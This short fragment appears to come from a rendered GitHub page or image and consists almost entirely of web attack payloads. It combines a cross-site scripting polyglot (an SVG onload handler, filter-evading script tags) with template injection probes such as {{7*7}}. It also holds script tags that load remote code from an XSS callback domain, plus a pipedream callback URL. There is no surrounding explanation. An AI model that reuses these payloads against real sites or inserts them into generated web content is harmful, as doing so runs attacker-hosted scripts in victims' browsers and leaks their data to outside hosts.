 '"><svg/onload=prompt(5);>{{7*7}}


${{7*7}}`'";--><sCRIpt sRc=//s6.xss.ht></sCRIpt>

"><script/src=//s6.xss.ht></script>;>{{7*7}}

http://fc52a7e8b87e98a922d32ddf391a9ca4.m.pipedream.net
